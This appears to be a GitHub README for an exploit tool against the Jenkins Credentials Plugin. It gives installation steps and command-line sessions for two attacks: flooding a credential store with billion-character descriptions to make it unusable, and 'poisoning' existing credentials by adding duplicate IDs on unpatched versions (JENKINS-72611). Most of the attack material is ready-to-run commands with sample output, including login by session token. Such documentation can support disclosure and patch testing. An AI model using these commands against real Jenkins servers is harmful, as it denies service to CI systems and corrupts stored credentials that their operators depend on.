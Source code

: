 # Jenkins Credentials Flood

## Description
This tool allows users to interact with the Jenkins Credentials Plugin to exploiting two bugs. One of them (duplicate IDs) is only affecting versions prior to `1337.v60b_d7b_c7b_c9f`. 

### Bugs
1. **JENKINS-72611**: A bug affecting the Credentials Plugin prior to version `1337.v60b_d7b_c7b_c9f`. More details can be found [here](https://issues.jenkins.io/browse/JENKINS-72611).
2. **Description Length Limit**: A second bug that remains unresolved, which allows for credentials to be added without validation on the description length limit.

## Installation
To use this tool, ensure you have Python installed on your machine. Clone the repository and install any required dependencies.

```bash
git clone https://github.com/Harckade/jenkins-credentials-flood.git
cd jenkins-credentials-flood
pip install -r requirements.txt
```

## Usage
### To run the tool using username and password
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
```

### To run the tool using session ID token
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -t JSESSIONID.3ca79i9ds3457ergg
```

### List all available commands
```bash
python jenkins_exploit_tool.py --help
Available Commands
help - Show this help message.
list - List all credentials from all stores.
list STORE_PATH - List credentials from a specific store. E.g., list store/sub-store.
add - Add a credential or a set of credentials to a specific store with any length. This may slow down users' browsers.
poison - Add credentials with the same ID as already existing ones. This is only possible if the Credentials plugin version is prior to 1337.v60b_d7b_c7b_c9f.
exit - Exit the program.
```

## Examples
### To display the help message
```bash
python jenkins_exploit_tool.py -h
```

### To list all credentials from all stores:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list
```

### To list credentials from a specific store:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
list store/sub-store
```

### To add a credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
add
# (default - "System") store:
# (default - "(global)") domain:
# (default - 99999999) description length: 9999999900
⚠️  1000000900 characters long description will make 'system' store unusable for the most clients ⚠️
# (y/n) procceed: y
Length: 1000000900
# (default - 1) number of credentials: 3
This may take a while...
Adding credential #creds-flood-bf622-0
```

### To poison an existing credential:
```bash
python jenkins_exploit_tool.py -l https://localhost:8080 -u admin -p s#cr3tw0rd.
poison
# (default - "System") store:
# (default - "(global)") domain:
# target credential id: harckade-1
```

## Contributing
If you'd like to contribute to this project, please follow these steps:

- Fork the repository.
- Create a new branch (git checkout -b feature-branch).
- Make your changes and commit them (git commit -m 'Add new feature').
- Push to the branch (git push origin feature-branch).
- Open a pull request.
